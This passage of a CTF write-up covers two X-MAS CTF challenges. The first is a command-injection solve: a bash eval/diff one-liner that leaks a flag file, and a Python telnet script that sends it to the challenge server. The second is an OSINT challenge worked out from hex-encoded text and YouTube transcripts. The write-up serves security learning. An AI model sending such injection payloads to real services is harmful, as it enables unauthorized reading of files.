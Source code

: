 ```bash
❯ eval $(echo flag=$(diff flag.txt .dockerenv)); echo $flag
eval flag=1d0 < X-MAS{h3ll0_k4r3n-8819d787dd38a397}
```

Python script to do this

```python
from telnetlib import Telnet

with Telnet('challs.xmas.htsp.ro', 6004) as tn:
    while True:
        line = tn.read_until(b"\n")
        print(line)
        if b'WHAT IS BOTHERING YOU???' in line:
            break

    cmd = bytearray()
    cmd += b"eval $(echo flag=$(diff flag.txt .dockerenv)); echo $flag\n"

    tn.write(cmd)

    while True:
        line = tn.read_until(b"\n")
        print(line)
        if b'YOUR COMPLAINT HAS BEEN RECORDED' in line:
            break
```

## Misc - Bobi's Whacked

*Warm socks and warm wine, so the caption said.*

**Author:** Bobi

### Solution

* On the YouTube channel Bobi's wHack - https://www.youtube.com/c/BobiswHack/about, the about section contained a string: "6D6964646C6570617274"

Hex decoding that resulted in: "middlepart"

* Searching his channel for "X-MAS" results in two videos. It's hidden in the transcript of the first video!

![bobis_whacked](bobis_whacked.png)

* Similarly, in his third video about HackTheBox Forest, there's a transcript `_congrats}`
